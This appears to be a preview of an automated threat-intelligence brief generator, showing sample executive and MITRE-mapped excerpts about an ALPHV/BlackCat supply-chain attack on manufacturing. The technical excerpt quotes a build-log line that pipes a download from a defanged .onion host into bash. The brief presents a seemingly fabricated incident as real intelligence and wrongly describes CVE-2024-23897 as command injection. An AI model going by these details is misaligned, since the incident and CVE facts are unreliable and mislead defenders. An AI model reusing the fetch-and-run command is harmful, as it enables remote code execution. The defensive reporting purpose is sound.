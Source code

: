 ### **Document 1 Preview: Executive Brief**
```markdown
# Express Attack Brief 002
## ALPHV/BlackCat Manufacturing Supply Chain Campaign - Protecting Industrial Production for Future Generations

**Classification:** Project Nightingale Intelligence
**Publisher:** NCC Group OTCE + Dragos + Adelard
**Prepared for:** Manufacturing Sector Leadership
**Date:** Saturday, June 7, 2025

## Mission Context
ALPHV/BlackCat's sophisticated supply chain targeting directly threatens the manufacturing infrastructure that produces essential goods ensuring clean water, reliable energy, and healthy food access for our grandchildren. This campaign demonstrates how supply chain compromise can cascade across interconnected industrial systems...

### Attack Overview
| Attribute | Value |
|-----------|-------|
| **Incident Timeframe** | March 15, 2025 - Ongoing (Day 1-85+) |
| **Threat Actor** | ALPHV/BlackCat Ransomware Group |
| **Primary Target** | Manufacturing Software Supply Chain |
| **Attack Objective** | Multi-Site Production Disruption + Data Theft |
| **Mission Threat Level** | CRITICAL - Threatens essential goods production |
```

### **Document 2 Preview: Technical Analysis**
```markdown
# Express Attack Brief 002
## ALPHV/BlackCat Manufacturing Supply Chain Attack - Technical MITRE Analysis

### 3.1. Software Supply Chain Compromise

| **Timestamp** | Day 1, 09:15 |
|---|---|
| **Techniques** | T1195.002 Compromise Software Supply Chain to achieve TA0001 Initial Access |
| **Target tech** | Jenkins CI/CD Pipeline, Manufacturing Software Vendors |

ALPHV/BlackCat initiated the campaign through sophisticated compromise of Jenkins CI/CD infrastructure used by manufacturing software vendors. The threat actors exploited CVE-2024-23897, a command injection vulnerability in Jenkins...

**Forensic Evidence - Initial Compromise:**
```bash
[2025-03-15 09:15:23] Jenkins Build Log - Malicious Pipeline Injection
Build #847: manufacturing-control-software v2.4.1
Pipeline: Jenkinsfile
Injected Command: curl -s hxxp://alphv-supply.onion/stage1 | bash
```
```

---

## Step 4: Sector Automation Features

### **Manufacturing Sector Specialization**
```markdown
Automated Sector Customization:
✅ Industrial protocol focus (Modbus, EtherNet/IP, PROFINET)
✅ Production line impact analysis
✅ Supply chain vulnerability assessment  
✅ Safety system security implications
✅ Quality control system protection
```